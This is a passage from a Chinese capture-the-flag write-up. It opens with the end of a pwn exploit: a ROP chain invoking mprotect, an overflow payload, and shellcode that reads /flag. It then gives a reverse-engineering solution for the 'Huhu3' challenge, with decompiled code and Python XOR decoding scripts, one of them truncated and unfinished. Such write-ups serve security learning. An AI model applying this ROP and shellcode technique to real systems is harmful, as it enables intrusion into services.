rop_c+=p64(pop_rdx_r12_ret)+p64(7)+p64(0)
rop_c+=p64(pop_rax_ret)+p64(10)
rop_c+=p64(syscall_ret)+p64(bss)#mprotec
# debug('b *0x4016A9')
sh.sendlineafter(choice_words, str(5))
sh.send(b'a'*0x38+rop_c)
sleep(0.1)
shellcode=asm(shellcraft.openat(0,'/flag',0,0))
shellcode+=asm(shellcraft.sendfile(1,3,0,0x100))
sh.send(shellcode)
sh.recvall()
# pause()

```

## 补充 0解 Re——Huhu3

题目出的有一点抽象，找出题人要了wp学习

hu@hu3.exe里面

~~~c
int __cdecl main_0(int argc, const char **argv, const char **envp)
{
  char *Buffer; // [esp+D0h] [ebp-20h]
  char *Destination; // [esp+E8h] [ebp-8h]

  __CheckForDebuggerJustMyCode(&unk_44A0F2);
  puts("Please wait while the program is loading");
  Sleep(0x3E8u);
  system("cls");
  sub_41111D();
  puts("Here's a rose. Give me a hand");
  Sleep(0x3E8u);
  system("cls");
  sub_411104();
  Destination = (char *)malloc(0x64u);
  strcpy_s(Destination, 0x64u, "LZSDS");
  srand(*(_DWORD *)Destination);
  sub_4113C5();
  Buffer = (char *)malloc(0x64u);
  strcpy_s(Buffer, 0x64u, "Brave swordsman Ang, can you discover my secret?Don't forget what you started with");
  puts(Buffer);
  sub_4113DE();
  return 0;
}
// attributes: thunk
int sub_4113C5(void)
{
  return sub_412100();
}
void sub_652100()
{
  int v0; // [esp+D0h] [ebp-24h]
  int v1[3]; // [esp+DCh] [ebp-18h] BYREF
  int v2; // [esp+E8h] [ebp-Ch]

  puts("Give you a flower, give me your answer");
  sub_651104();
  v2 = (unsigned __int8)rand();
  v0 = 0;
  do
  {
    puts("give me your ans");
    sub_6512E4("%d", (char)v1);
    if ( v1[0] >= v2 )
    {
      if ( v1[0] > v2 )
        puts("your enc > ans");
    }
    else
    {
      puts("your enc < ans");
    }
    LOBYTE(v2) = rand();
    v2 = (unsigned __int8)v2;
    dword_687C60[v0++] = (unsigned __int8)v2;
    sub_651073(v2);
    sub_6510FF("You've tried this for the %d time\n", v0);
  }
  while ( v2 != v1[0] );
  puts("Well you got it !");
  sub_651307();	// 打印假flag
  puts("But?\nWhat?!\nWrong???????????????");
  Sleep(0x1388u);
}
// attributes: thunk
void __cdecl sub_411073(int a1)
{
  sub_412530(a1);
}
int __cdecl sub_412530(int a1)
{
  int result; // eax
  int i; // [esp+D0h] [ebp-154h]
  char *Format; // [esp+DCh] [ebp-148h]
  char *v4; // [esp+E8h] [ebp-13Ch]
  FILE *Stream; // [esp+F4h] [ebp-130h]
  char *Destination; // [esp+100h] [ebp-124h]
  char Buffer[268]; // [esp+10Ch] [ebp-118h] BYREF
  int v8; // [esp+218h] [ebp-Ch]

  v8 = -1;
  result = -1;
  if ( a1 != -1 )
  {
    ++dword_447DDC;
    result = a1 - 5;
    v8 = a1 - 5;
  }
  if ( dword_447DDC == 30 )
  {
    dword_447C54 = &unk_41C190;
    Destination = (char *)malloc(0x64u);
    strcpy_s(Destination, 0x64u, "hu@hu2.png");
    sub_41126C(Buffer, 0x104u, "%s%s", (char)&unk_418B3C);
    free(Destination);
    Stream = fopen(Buffer, "wb");
    if ( !Stream )
      exit(1);
    fwrite(dword_447C54, dword_41C000, 1u, Stream);
    dword_447C54 = 0;
    fclose(Stream);
    v4 = (char *)malloc(0x64u);
    strcpy_s(v4, 0x64u, "Give you 10s to enjoy the picture of Huahua panda");
    puts(v4);
    free(v4);
    Format = (char *)malloc(0x64u);
    strcpy_s(Format, 0x64u, "%d\r");
    for ( i = 10; i; --i )
    {
      sub_4110FF(Format, i);
      Sleep(0x3E8u);
    }
    return remove(Buffer);
  }
  return result;
}
~~~

中间有很简单的花指令nop掉即可反编译完整代码，可以看到随机数检查，可以直接忽略绕过。其中sub_412530写入了unk_41C190数组，检查发现是RIFF开头是图片，导出检查没发现问题，估计是假代码

继续往后面找并去花，找到关键函数

~~~c
int sub_4122C0()
{
  FILE *Stream; // [esp+D0h] [ebp-130h]
  char FileName[268]; // [esp+DCh] [ebp-124h] BYREF
  char *Destination; // [esp+1E8h] [ebp-18h]
  _BYTE *v4; // [esp+1F4h] [ebp-Ch]

  v4 = malloc(0x64u);
  Destination = (char *)malloc(0x64u);
  *v4 = 's';
  v4[1] = 'e';
  v4[2] = 'c';
  v4[3] = 'r';
  v4[4] = 'e';
  v4[5] = 't';
  v4[6] = '.';
  v4[7] = 'e';
  v4[8] = 'x';
  v4[9] = 'e';
  strcpy_s(Destination, 0x22u, "2024.10.23.16.3*.**,1o3t********");
  GetTempPathA(0x104u, byte_447CD8);
  dword_447C54 = &unk_43C818;
  sub_41126C(FileName, 0x104u, "%s%s", (char)byte_447CD8);
  Stream = fopen(FileName, "wb");
  if ( !Stream )
    exit(1);
  fwrite(dword_447C54, ElementSize, 1u, Stream);
  fclose(Stream);
  return remove(FileName);
}
~~~

可以看到导出了exe文件，导出反编译得到

~~~c
int __cdecl main_0(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char v5; // [esp+DFh] [ebp-41h]
  unsigned int k; // [esp+E8h] [ebp-38h]
  unsigned int v7; // [esp+F4h] [ebp-2Ch]
  unsigned int v8; // [esp+F4h] [ebp-2Ch]
  int i; // [esp+100h] [ebp-20h]
  unsigned int j; // [esp+100h] [ebp-20h]
  unsigned int v11; // [esp+100h] [ebp-20h]
  size_t m; // [esp+100h] [ebp-20h]
  size_t n; // [esp+100h] [ebp-20h]
  unsigned int v14; // [esp+10Ch] [ebp-14h]
  unsigned int Seed; // [esp+118h] [ebp-8h]

  __CheckForDebuggerJustMyCode(&unk_41D0F2);
  Seed = sub_412E70(0);
  srand(Seed);
  v7 = 0;
  for ( i = 0; i < 256; ++i )
    rand();
  v3 = rand() % 256;
  v14 = v3;
  for ( j = 0; j < v3; ++j )
    byte_41B248[j] = j;
  v11 = 0;
  for ( k = 0; k < v14; ++k )
  {
    v8 = ((unsigned __int8)Str[(dword_41B34C + dword_41B348 + v11)
                             % j_strlen("悙悙悙悙悙悙悙悙悙悙悙悙悙悙悙")]
        + v7
        + (unsigned __int8)byte_41B248[v11])
       % v14;
    v7 = (v8 ^ rand()) % v14;
    v5 = byte_41B248[v11];
    byte_41B248[v11] = byte_41B248[v7];
    byte_41B248[v7] = v5;
    v11 = rand() % v14;
  }
  for ( m = 0; m < j_strlen(asc_41B020); ++m )
  {
    dword_41B348 = (dword_41B348 + 1) % v14;
    dword_41B34C = (dword_41B348 + (unsigned int)(unsigned __int8)byte_41B248[(dword_41B34C + dword_41B348) % v14])
                 % v14;
    asc_41B020[m] ^= (_BYTE)v14
                   + byte_41B248[((unsigned __int8)byte_41B248[dword_41B34C]
                                + (unsigned int)(unsigned __int8)byte_41B248[(dword_41B348 + rand() % v14) % v14])
                               % v14];
  }
  for ( n = 0; n < j_strlen(asc_41B020); ++n )
  {
    if ( asc_41B020[n] != byte_41B058[n] )
      exit(0);
  }
  puts("you_got_it");
  return 0;
}
~~~

可以发现类似rc4加密，但是很明显str值不对

检查别的函数发现了一个花指令隐藏的函数，发现修改了dword_41B348的初始值可能由0修改为5（没找到最终调用这个函数的位置）

~~~c
int sub_412A50()
{
  unsigned __int64 v0; // rax
  int v1; // ecx
  unsigned __int64 v2; // rax
  int result; // eax

  v0 = __rdtsc();	// 周期指令
  v1 = v0;
  v2 = __rdtsc();
  result = v2 - v1;
  if ( result >= 21 )
    dword_41B348 = 5;
  return result;
}
~~~

但是还是缺少获取rand需要的seed值。出题人当时提示了rand值线性排列，当时没理解要去最开始文件里找，如下图dword_447C60



动态调试前先把里面sleep的地方patch掉，调试获取rand值，然后和下图上方数组异或



~~~python
c = [0xFFFFFFED, 0x00000020, 0xFFFFFFA5, 0xFFFFFFFB, 0xFFFFFF8B, 0x00000075, 0xFFFFFFE4, 0x00000009, 0x0000004E, 0x00000075, 0x00000008, 0x00000036, 0xFFFFFFB9, 0x00000059, 0xFFFFFFEF, 0xFFFFFFD7, 0x00000048, 0xFFFFFF83, 0xFFFFFFBC, 0x00000009, 0xFFFFFF96, 0x0000004E, 0x00000069, 0x0000001E, 0x0000004E, 0x00000012, 0x00000006, 0xFFFFFFE0, 0xFFFFFF83, 0xFFFFFF8A]
xor = [0x00000094, 0x00000010, 0x000000D0, 0x000000A4, 0x000000E0, 0x00000035, 0x0000008A, 0x0000003A, 0x00000011, 0x00000005, 0x0000002E, 0x00000058, 0x000000DD, 0x00000073, 0x000000B0, 0x000000B1, 0x00000079, 0x000000EF, 0x0000008F, 0x00000056, 0x000000FE, 0x0000003B, 0x0000005A, 0x0000002D, 0x00000011, 0x0000007A, 0x00000073, 0x000000A0, 0x000000C3, 0x0000008A]
for i in range(len(c)):
    print(chr(xor[i]^c[i]&0xff), end="")
print()	# y0u_k@n3_p&nd*_f1l3_hu33_hu@@ 
~~~

可以得到key

看出题人很巧妙的导入rand.dll，用python调用来获取随机数，方法学习下(还没试成功)

~~~python
ypes import *
dll = cdll.LoadLibrary("./Rand.dll")
csd = lambda x: dll.sd(x)
crd = lambda: dll.rd()
v = b"LZSD"
seed = int.from_bytes(v, "little")
v = [0xFFFFFFED, 0x00000020, 0xFFFFFFA5, 0xFFFFFFFB, 0xFFFFFF8B, 0x00000075, 0xFFFFFFE4, 0x00000009, 0x0000004E, 0x00000075, 0x00000008, 0x00000036, 0xFFFFFFB9, 0x00000059, 0xFFFFFFEF, 0xFFFFFFD7, 0x00000048, 0xFFFFFF83, 0xFFFFFFBC, 0x00000009, 0xFFFFFF96, 0x0000004E, 0x00000069, 0x0000001E, 0x0000004E, 0x00000012, 0x00000006, 0xFFFFFFE0, 0xFFFFFF83, 0xFFFFFF8A]
csd(seed)
crd()
k = [crd()&0xff for i in range(30)]
for i in range(len(v)):
    v[i] ^= k[i]
    v[i] &= 0xff
print(bytes(v))
~~~

前面可以知道时间`2024.10.23.16.3*.**`，因此理论上可以爆破时间戳

会做了懒得写最后的脚本了

只能说key那个地方藏得太离谱了，都没调用谁知道那个连着的数组上面那个才是真实flag
